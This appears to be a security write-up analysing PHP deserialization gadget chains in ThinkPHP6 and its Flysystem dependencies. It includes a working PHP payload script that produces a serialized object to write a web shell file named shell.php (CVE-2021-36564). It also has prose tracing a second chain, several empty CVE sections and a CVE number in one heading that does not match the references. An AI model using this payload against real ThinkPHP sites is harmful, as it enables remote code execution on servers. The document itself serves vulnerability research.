









# ThinkPHP6 Deserialization Vulnerability Analysis

## Idea

First, global search where the function `__destruct` appears, to facilitate subsequent analysis. And a total of five functions `__destruct` are found.



```php
// vendor/league/flysystem/src/SafeStorage.php
public function __destruct()
{
    unset(static::$safeStorage[$this->hash]);
}

// vendor/league/flysystem/src/Adapter/AbstractFtpAdapter.php
public function __destruct()
{
    $this->disconnect();
}

// vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php
public function __destruct()
{
    if (! $this->autosave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/Model.php
public function __destruct()
{
    if ($this->lazySave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/db/Connection.php
public function __destruct()
{
    $this->close();
}
```

### CVE-2021-36564

Global search for file write methods that exist in the project, such as file_put_contents, fwirite and so on.



There are two calls to the `file_put_contents` function in the file `vendor/league/flysystem/src/Adapter/Local.php`, the function `write` and the function `update`.



Now, we need to find a place where the function `write` or function `update` is called, here web analyze the function `write`. We can see it is called by the file `vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`. And when looking for the `__destruct` function above, one of them exists to call the `save` function, so we can try to use it.



The value of `$config` is obtained by instantiating the class `Config`, and the value of `$contents` is obtained by calling the `cleanContents` function in the abstract class `AbstractCache`. What's more, the value of `$this->adapter`, the value of `$this->file`, and the value of `$this->cache` are all controable.



So, we can use the following payload to achieve the purpose of getshell by writing the malicious file.

```php
<?php

namespace League\Flysystem\Adapter {

    use League\Flysystem\Cached\Storage\AbstractCache;

    class Local extends AbstractCache{
        public function save() { }

        public function load() { }
    }

    class AbstractAdapter {
        protected $pathPrefix;
        public function __construct() {
            $this->pathPrefix = "./";
        }
    }
}

namespace League\Flysystem\Cached\Storage {

    use League\Flysystem\Adapter\Local;

    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["*\<?php phpinfo();?>\\"];
    }

    class Adapter extends AbstractCache {
        protected $adapter;
        protected $file;
        protected $expire = null;

        public function __construct() {
            $this->adapter = new Local();
            $this->file = "shell.php";
        }

        public function save() { }

        public function load() { }
    }
}

namespace {
    use League\Flysystem\Cached\Storage\Adapter;
    $payload = new Adapter();
    echo base64_encode(serialize($payload));
}
```




### CVE-2021-3656

Unlike the analysis above which uses file write to getshell, this time we find gadget by forward analyzing the use of the `__destruct` function.

We use the `__destruct` function in the file `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php` as a starting point for our analysis.



First, we need to find an inheritance class of the Model class that implements the save method, I has selected the file `vendor/topthink/think-filesystem/src/filesystem/CacheStore.php`.




The value of `$this->store` is controable, so we can use the `set` method in any class. And the value of `$contents` is alse controable.

Finally, we are able to reach the purpose in `thinkphp/vendor/topthink/framework/src/think/cache/driver/File.php`.




### CVE-2022-33107

### CVE-2022-38352

### CVE-2022-45982


## Reference
 - [`CVE-2021-36564`](https://github.com/top-think/framework/issues/2559)
 - [`CVE-2021-36567`](https://github.com/top-think/framework/issues/2561)
 - [`CVE-2022-33107`](https://github.com/top-think/framework/issues/2717)
 - [`CVE-2022-38352`](https://github.com/top-think/framework/issues/2749)
 - [`CVE-2022-45982`](https://github.com/top-think/framework/issues/2793)